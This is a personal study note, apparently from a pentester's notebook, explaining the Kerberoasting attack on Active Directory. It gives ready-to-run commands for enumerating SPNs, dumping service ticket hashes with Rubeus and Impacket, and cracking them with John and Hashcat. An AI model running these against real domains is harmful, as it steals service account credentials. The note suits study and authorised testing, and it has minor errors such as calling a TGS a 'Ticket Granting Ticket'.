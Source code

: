 ### Kerberoasting
Kerberoasting is an AD attack that ***allows a domain-connected attacker to extract SPN account hashes and crack them offline***. The `PowerSploit` toolkit automates this process with `Invoke-Kerberoast`.

When a service request a ***Ticket Granting Ticket (TGS)*** from the DC, the ***service account hash is used to encrypt that message***.

#### Tool
- **Rubeus:** This will discover every ***SPN, extract the TGS, and dump the service hashes*** into a file.
- **setspn:** Query for all valid ***SPNs*** on a PowerShell prompt.

#### Why Kerberoasting is possible?
- Any domain user can request a TGS for any service 
- The ***KDC doesn't check service ownership*** - it just issues the ticket (KDC assumes that the service itself will validate whether the user is authorized)
- The TGS is encrypted with the service account's password hash, which can be cracked offline if the password is weak, without sounding any alarm.

#### Kerberoasting Steps
- `Enumerate SPNs:` Find all accounts in AD that have the `servicePrincipalName` attribute. (Attacker must already be authenticated in the domain, even as a low-privileged user)
- `Request service tickets:` Ask DC for those services. (Attacker requests a Kerberos TGS ticket for a service account with an SPN. The KDC responds with a TGS that is ***encrypted with the service account's NTLM hash***, derived from its password)
- `Extract hashes:` Dump the service ticket data from memory; the ticket is encrypted with the service account's password hash.
- `Offline cracking:` Crack hashes offline to recover the password.
- `Impersonate service account:` Once cracket, the attacker can access resources as that service account.

#### Using PowerShell tools, Service Tickets can be identified by the following key factors:
- SPNs that are part of a domain user account
- Last logon date
- Password expiration date
- The last time the password was set

#### Service Principal Name (SPN)
A Service Principal Name (SPN) is a unique identifier that ***maps a service instance to a service login account***.

**Note**: SPNs must be registered to an AD service before Kerberos can authenticate the service using SPNs. SPNs are also unique in a domain forest and can only be bound to a single service account. So, if SPN is not unique then Kerberos authentication will fail.
![[Pasted image 20250826150620.png]]

A `Kerberoast` attack has multiple steps, as illustrated in the image below:
![[Pasted image 20250930000222.png]]

### Get user SPNs
**PowerSploit**
Old PowerShell command that can be used from a domain-connected client to retrieve the hash.
```
Invoke-Kerberoast
```

**Get Domain Name first**
```powershell
.\Rubeus.exe kerberoast
```

```powershell
whoami /fqdn
```
- Look for the two `DC.`

**Enumerate valid SPNs using PowerShell (Also provides other hosts details)**
```powershell
setspn -T <DC_hostname> -Q */*
```
- `setspn:` Windows binary used to query info regarding user accounts and services that are bound to the user account.
- `DC_hostname` could be `krbtown.local`.

**Search for specific details**
```powershell
setspn -T <DC_hostname> -Q */* | findstr /I users
```

**Rubeus**
```powershell
.\Rubeus.exe kerberoast /outfile:<filename.txt> /format:john
```

**Empire**
Empire is another PowerShell library for post exploitation that includes a set of tools that can be used to get SPN records.

**Impacket**
It is a Python library hosting scripts that can interact with a Windows domain controller. For kerberoasting the script, GetUserSPNs.py can be used with any user's valid domain credentials.
```
/usr/share/doc/python3-impacket/examples/GetUserSPNs.py <domain/username:password> -dc-ip <dc_IP> -request > output_hash.txt
```

### Cracking the Hash
**JohnTheRipper**
```
john hash.txt /usr/share/wordlists/rockyou.txt
```

```
john --format=krb5tgs --wordlist=/usr/share/wordlists/rockyou.txt hash.txt
```

**Hashcat**
```
hashcat -m 13100 hash.txt /usr/share/wordlists/rockyou.txt
```
- `13100`: Kerberos 5 TGS-REP hash